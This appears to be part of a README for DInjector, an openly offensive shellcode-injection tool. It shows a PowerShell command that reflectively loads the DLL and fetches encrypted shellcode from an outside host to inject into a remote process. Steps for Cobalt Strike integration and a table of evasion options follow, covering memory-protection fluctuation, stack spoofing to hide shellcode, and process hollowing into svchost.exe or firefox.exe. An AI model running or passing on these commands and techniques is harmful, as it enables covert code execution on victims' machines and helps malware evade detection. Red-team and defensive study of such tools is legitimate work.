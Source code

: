 ```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\DInjector.dll")
$assem = [System.Reflection.Assembly]::Load($bytes)
[DInjector.Detonator]::Boom("remotethread /sc:http://10.10.13.37/enc /p:Passw0rd! /pid:1337 /am51:True")
```

## Cobalt Strike Integration

In order to use DInjector from Cobalt Strike:

1. Change project's output type to Console Application.
2. Replace some strings:

```powershell
$detonator = gc .\Detonator.cs
$detonator = $detonator -creplace "Boom", "Main"
$detonator = $detonator -creplace "Main\(string command\)", "Main(string[] args)"
$detonator = $detonator -creplace "var args = command.Split\(\);", "//var args = command.Split();"
$detonator > .\Detonator.cs
```

3. Compile the assembly to x64 and put it next to the Aggressor script.

![cs](https://user-images.githubusercontent.com/23141800/169656256-143f6cfa-0a33-4869-9bce-f7b1d58686e2.png)

## Arguments

| Name           | Techniques                                                                                                                                                                                 | Required | Default Value          | Example Values                                                                    | Description                                                                                                                                                   |
|----------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `/sc`          | All                                                                                                                                                                                        | YES      | -                      | `http://10.10.13.37/enc`                                                          | Sets shellcode path (can be loaded from URL or as a base64 string).                                                                                           |
| `/p`           | All                                                                                                                                                                                        | YES      | -                      | `Passw0rd!`                                                                       | Sets password to decrypt the shellcode.                                                                                                                       |
| `/protect`     | CurrentThread                                                                                                                                                                              | NO       | `RX`                   | `RX` / `RWX`                                                                      | Sets memory protection for the shellcode.                                                                                                                     |
| `/flipSleep`   | CurrentThread                                                                                                                                                                              | NO       | `0` (do NOT flip)      | `10000`                                                                           | Sets timeout for NtDelayExecution (ms) to delay execution with PAGE_NOACCESS on the shellcode before resuming the thread.                                     |
| `/timeout`     | CurrentThread                                                                                                                                                                              | NO       | `0` (serve forever)    | `5000`                                                                            | Sets timeout for NtWaitForSingleObject (ms) to wait before doing extra cleanup.                                                                               |
| `/fluctuate`   | CurrentThread                                                                                                                                                                              | NO       | `0` (do NOT fluctuate) | `RW`                                                                              | Sets memory protection for the shellcode to fluctuate on Sleep with.                                                                                          |
| `/spoofStack`  | CurrentThread                                                                                                                                                                              | NO       | `False`                | `True` / `False`                                                                  | Spoofs current thread stack frame to hide the presence of the shellcode.                                                                                      |
| `/image`       | RemoteThreadKernelCB, RemoteThreadAPC, RemoteThreadContext, ProcessHollowing, ModuleStomping                                                                                               | YES      | -                      | `C:\Windows\System32\svchost.exe`, `C:\Program*Files\Mozilla*Firefox\firefox.exe` | Sets path to the image of a newly spawned sacrifical process to inject into. If there're spaces in the image path, replace them with asterisk (*) characters. |